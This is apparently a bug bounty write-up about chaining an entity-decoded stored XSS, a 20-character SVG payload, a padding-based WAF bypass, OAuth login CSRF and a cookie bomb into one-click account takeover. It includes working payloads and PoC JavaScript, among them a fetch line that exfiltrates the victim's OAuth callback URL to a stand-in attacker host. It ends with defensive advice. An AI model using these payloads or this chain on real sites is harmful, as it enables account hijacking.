

Some weeks ago, I was testing a mature and heavily audited application from a bug bounty program. Since I had previously found several interesting **client-side vulnerabilities** in that target, I decided to focus on the frontend again. What first looked like a safely sanitized name field eventually became **one-click account takeover** through a chain of bypasses.


## First Signals

The first thing that caught my attention was a user-controlled name field being rendered back in a logged-in UI component.

So I started with the simplest possible test:

```html
<s>test</s>
```

After saving the profile, the application did **not** store the HTML. It stripped the tags and saved only:

```text
test
```

At this point, it looked boring. The server was clearly doing some kind of **sanitization** before storing the name.

But the value was still being rendered client-side, so I kept looking at the JavaScript code to understand the relevant sink.

## Finding the Client-Side Decode

The initial HTML did not render the name directly in that component. The relevant element was empty in the server response:

```html
<a href="/me">
  <span class="current-display-name"></span>
</a>
```

The actual user data was placed in a JavaScript object:

```javascript
window.profileBlob = {
  uid: 104,
  value: "Juan"
}
```

Then the logged-in bundle filled the name client-side.

The interesting part was the order of operations. Simplified, the code looked like this:

```javascript
var profile = window.profileBlob;

toArray(document.querySelectorAll(".current-display-name")).forEach(function(el) {
  el.innerHTML = renderCompactName(profile.value);
});

function renderCompactName(value) {
  return truncate(decodeEntities(value), 20);
}
```

The important detail is that **`decodeEntities()` decoded HTML entities before the value reached `innerHTML`**:

```text
&amp;  -> &
&lt;   -> <
&gt;   -> >
&quot; -> "
&#39;  -> '
```

So I tried storing the same test string, but encoded as HTML entities:

```text
&lt;s&gt;test&lt;/s&gt;
```

This time, the server stored it as-is.

When I visited my profile, the frontend decoded it, inserted it with `innerHTML`, and the browser rendered:

```html
<s>test</s>
```

The HTML was actually being **interpreted by the browser**.

So the **server-side sanitization** was only removing raw tags. If the tag was stored as entities, the frontend would decode it back into HTML and render it.

## The 20-Character Problem

After some more tests and analyzing the JavaScript code, I discovered there was one annoying constraint.

This particular rendering path truncated the value to a short fixed length:

```javascript
function truncate(value, length) {
  if (value.length < length) return value;
  return value.slice(0, length) + "...";
}
```

In this case, the important part of the payload had to close before or exactly at **character 20**. If the string reached that limit, the function appended `...` after the first 20 characters.

That changed the challenge completely. I started wondering if it was possible to get arbitrary JavaScript execution with a tag that closes at or before character 20.


## Dead Ends

My first idea was to use a very short external script:

```html
<script src=//te.st>
```

This fits in the size constraint. But there is a problem: scripts inserted through `innerHTML` do not execute. The browser creates the element, but it does not evaluate it.

So that was a dead end.

The next idea was an event handler with `window.name` as the payload carrier:

```html
<x oncut=eval(name)>
```

This is small, and inline event handlers created through `innerHTML` can execute. Also, inside an inline handler, `name` resolves to `window.name`, which can be controlled before navigating to the target.

But `oncut` needs user interaction. The victim would need to select text and trigger a cut event. That might be an XSS, but it wasn't a practical scenario.

I needed something that fired automatically.

## The 20-Character Payload

While looking through the loaded bundles, I noticed that **jQuery** was globally exposed on logged-in pages.

That gave me the missing piece.

In **jQuery**, `$()` is not only a selector helper. When it receives an HTML-looking string, it parses that string and creates DOM nodes from it. Also, inside an inline event handler, `name` resolves to **`window.name`**.

So, if I could execute:

```javascript
$(name)
```

the tiny stored payload would call jQuery with whatever I had previously placed in `window.name`. That meant the **20-character payload** did not need to contain the real JavaScript. It only needed to bridge into a longer payload stored in `window.name`.

So, this was the final decoded DOM payload, which fit exactly in 20 characters:

```html
<svg onload=$(name)>
```

Because the tag closed exactly at character 20, the appended suffix landed outside the opening tag:

```html
<svg onload=$(name)>...
                    ^ appended by truncate()
```

This worked because:

- SVG `onload` fires automatically when the element is inserted.
- `$` pointed to jQuery.
- `name` resolved to `window.name`, where the arbitrary JavaScript would be.

## The WAF Problem

At this point, the payload worked locally on my tests, but trying to save it in the name field triggered the **WAF**, blocking the request.

However, I already knew two useful things:

- Raw tags were stripped by the application.
- Entity-encoded tags were stored and later decoded client-side.

So I tried breaking the tag with a numeric entity:

```text
&lt;&#115;vg onload=$(name)&gt;
```

After decoding, `&#115;` becomes `s`, reconstructing:

```html
<svg onload=$(name)>
```

However, this still did not bypass the WAF. It was able to decode enough of the body to understand what I was doing.

After some tests, I found a bypass inspired by the techniques shown in [nowafpls](https://github.com/assetnote/nowafpls){:target="_blank"}.

The final request payload looked conceptually like this:

```text
&lt;&#000...[large padding]...000115;vg onload=$(name)&gt;
```

The zeros were only there to inflate the request body by a few hundred kilobytes, so that the body crossed the **WAF inspection limit** and the rest of the payload would pass.

So the decoded DOM payload and the request payload together satisfied every condition:

- The request bypassed raw tag stripping because the tag was not sent as a normal `<svg>` tag.
- The request bypassed the WAF because the body exceeded the inspection limit.
- The stored value became valid HTML across the storage and rendering path.
- The decoded DOM payload fit the 20-character truncation limit.
- The decoded DOM payload fired automatically.
- The loader reached arbitrary JavaScript through `window.name`.

## The Login CSRF

At this point, the payload was still only a **Self-XSS** in my own account.

The remaining question was:

> How do we make a victim render the attacker's account?

The platform supported an OAuth-based login flow.

The OAuth callback looked like this:

```http
GET /oauth/callback?state=...&code=... HTTP/2
Host: redacted.poc
```

The **`state` parameter** was not properly bound to the browser session that initiated the login flow.

This created a Login CSRF:

1. I started an OAuth login flow for my own account.
2. I intercepted the callback before the authorization code was consumed.
3. I used that unconsumed callback URL as the landing URL for the victim.
4. When the victim visited it, their browser became logged into **my** platform account.

After the **Login CSRF**, the victim's browser had a very useful **session mismatch**:

```text
+-----------------------------+   +--------------------------------+
| Platform session            |   | OAuth provider session          |
| = ATTACKER                  |   | = VICTIM                        |
|                             |   |                                |
| Set by Login CSRF callback. |   | Not touched by Login CSRF.     |
+-----------------------------+   +--------------------------------+
```

The platform session was mine, so the page rendered my stored XSS payload.

But the OAuth provider session was still the victim's.

## Delivering Arbitrary JavaScript

With the Login CSRF primitive in place, the delivery flow became much more interesting.

After client-side decoding, the effective DOM payload was only:

```html
<svg onload=$(name)>
```

The real JavaScript payload was delivered through **`window.name`**. In the final PoC, it set `window.name` on its own tab first, triggered the Login CSRF in a separate window, and then navigated that original tab to the platform.

```text
Victim tab starts on attacker page
  -> attacker page sets window.name in its own tab
  -> Login CSRF happens in a separate window
  -> the browser now has the attacker's platform session
  -> the original tab navigates to redacted.poc
  -> redacted.poc renders the attacker's stored name
  -> XSS fires in that same victim tab, with redacted.poc origin
```

So the attacker-controlled page only needed to prepare the original tab and trigger the login switch:

```javascript
const loginCsrfUrl = "https://redacted.poc/oauth/callback?state=...&code=...";

document.querySelector("button").onclick = function() {
  window.name = '';
  window.open(loginCsrfUrl);
  setTimeout(function() {
    location.href = "https://redacted.poc/";
  }, 2000);
};
```

When the target page loaded and rendered the attacker's stored name:

```text
<svg onload=$(name)> -> $(window.name) -> external exploit script
```

jQuery parsed the HTML stored in `window.name`, created the `` element, the image failed to load, and the `onerror` handler imported the external exploit script.

## Stealing the Victim's OAuth Code

Once the XSS executed on `redacted.poc`, the external exploit script abused that **session mismatch**.

The goal was to start a fresh OAuth flow and get a **code for the victim**, but prevent the platform from consuming it.

Normally, the OAuth navigation looks like this:

```text
redacted.poc/auth/connect/start
  -> login.redacted.poc/oauth/authorize
       ?client_id=platform
       &redirect_uri=https://redacted.poc/oauth/callback
       &state=VICTIM_STATE
  -> redacted.poc/oauth/callback
       ?state=VICTIM_STATE
       &code=VICTIM_CODE
```

At the end of that flow, the platform receives `VICTIM_CODE` on `/oauth/callback` and immediately exchanges it server-side.

To stop that from happening, the exploit script running in the victim tab performed a cookie bomb scoped only to the callback path:

```javascript
const callbackPath = "/oauth/callback";
const largeValue = "X".repeat(4000);

for (let i = 0; i < 100; i++) {
  document.cookie =
    "cb" + i + "=" + largeValue +
    "; Path=" + callbackPath;
}
```

This created a few hundred kilobytes of cookies for `redacted.poc`, but only for the `/oauth/callback` path.

The `Path` attribute is the important part: these cookies would not be sent on every request to the platform, only when the browser requested the OAuth callback path.

Then the external exploit script opened a new window and kept a reference to it:

```javascript
const oauthWindow = window.open("https://redacted.poc/auth/connect/start");
```

That new window followed the OAuth flow. Since the victim was still logged in to the OAuth provider, the returned authorization code belonged to the victim.

But when the browser landed back on the callback URL, it attached the oversized cookies. The platform rejected the request before processing the code:

```http
HTTP/2 413 Request Entity Too Large
```

While the OAuth window was on the login provider domain, the exploit script could not read its URL because it was cross-origin. But after the redirect back to `/oauth/callback`, the OAuth window was on `redacted.poc` again.

At that moment, the URL contained the victim's **unconsumed OAuth code**, and the XSS running in the victim tab could read `oauthWindow.location.href` because both windows were **same-origin**.

The external exploit script could then exfiltrate that callback URL with a simple `fetch`:

```javascript
fetch("https://attacker.poc/c?u=" + encodeURIComponent(oauthWindow.location.href));
```

The attacker only had to visit the stolen callback URL to finish the login as the victim.

The full chain looked like this:

<style>
  .mermaid svg text,
  .mermaid svg tspan,
  .mermaid svg .nodeLabel,
  .mermaid svg .edgeLabel {
    font-family: Arial, sans-serif !important;
  }
  .mermaid svg .actor,
  .mermaid svg .actor text,
  .mermaid svg .actor tspan {
    font-weight: 800 !important;
  }
  .mermaid svg .noteText,
  .mermaid svg .noteText tspan,
  .mermaid svg g.note text,
  .mermaid svg g.note tspan {
    font-size: 17px !important;
    font-weight: 800 !important;
    letter-spacing: .02em !important;
  }
</style>



At the end of the chain, the attacker is authenticated as the victim.

## Defensive Notes

If you are building something similar, the main takeaways are simple:

- Treat user-controlled names as text all the way to the final sink. If the value is decoded client-side, render it with `textContent`, not `innerHTML`.
- Avoid decoding HTML entities immediately before DOM insertion unless the next operation is guaranteed to be text-only.
- Bind OAuth `state` values to the browser session that initiated the login flow, and reject callbacks that do not match a server-side transaction.
- Be careful with request-size limits in security layers. If a WAF or proxy stops inspecting a body, the application should not continue processing it as usual.

## Conclusion

What I liked about this finding is that every individual piece looked easy to underestimate.

The name field stripped raw tags. The XSS payload was limited to 20 characters. The WAF detected the obvious request. The initial XSS was only in my own account. The OAuth code should have been consumed immediately.

But each limitation had a small gap:

- Entities were decoded client-side before `innerHTML`.
- The final SVG payload fit exactly in 20 characters.
- The WAF failed open on a large enough body.
- Login CSRF made the victim render my account.
- The cookie bomb preserved the victim's OAuth code long enough to steal it.

Together, they turned a Self-XSS into a one-click account takeover.
